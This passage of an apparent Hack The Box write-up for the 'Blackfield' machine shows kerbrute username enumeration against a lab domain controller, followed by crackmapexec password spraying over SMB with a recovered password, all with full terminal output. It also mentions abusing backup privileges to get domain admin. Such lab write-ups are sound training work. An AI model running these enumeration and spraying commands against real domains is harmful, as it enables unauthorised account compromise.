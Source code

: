 ```shell
┌──(thadigus㉿kali)-[~/HTB/Blackfield]
└─$ ./kerbrute_linux_amd64 userenum -d BLACKFIELD.local --dc 10.10.10.192 ./users.list

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 02/19/23 - Ronnie Flathers @ropnop

2023/02/19 23:18:30 >  Using KDC(s):
2023/02/19 23:18:30 >   10.10.10.192:88

2023/02/19 23:18:50 >  [+] VALID USERNAME:       audit2020@BLACKFIELD.local
2023/02/19 23:20:42 >  [+] VALID USERNAME:       support@BLACKFIELD.local
2023/02/19 23:20:47 >  [+] VALID USERNAME:       svc_backup@BLACKFIELD.local
2023/02/19 23:21:12 >  Done! Tested 314 usernames (3 valid) in 162.496 seconds
```

We can use Crackmapexec to brute force the SMB service to see if the password is reused across any of the common accounts. The password is not used across any other accounts. The two `audit2020` and `svc_backup` accounts catch my eye as I would assume that they both have higher permissions on the domain. In a Windows domain, backup privileges can be easily exploited to gain administrative permissions.

```shell
┌──(thadigus㉿kali)-[~/HTB/Blackfield]
└─$ mkdir crackmap
                                                                                                      
┌──(thadigus㉿kali)-[~/HTB/Blackfield]
└─$ echo 'audit2020                                           
quote> support
quote> guest                                                    
quote> svc_backup                                                        
quote> administrator
quote> ' > crackmap/updatedusers.list
                                                                                                      
┌──(thadigus㉿kali)-[~/HTB/Blackfield]
└─$ cd crackmap 
                                                                                                   
┌──(thadigus㉿kali)-[~/HTB/Blackfield/crackmap]
└─$ crackmapexec smb 10.10.10.192 -d 'BLACKFIELD.local' -u ./updatedusers.list -p '#00^BlackKnight' --continue-on-success
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\audit2020:#00^BlackKnight STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\support:#00^BlackKnight 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\guest:#00^BlackKnight STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\svc_backup:#00^BlackKnight STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\administrator:#00^BlackKnight STATUS_LOGON_FAILURE 
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\:#00^BlackKnight 
```

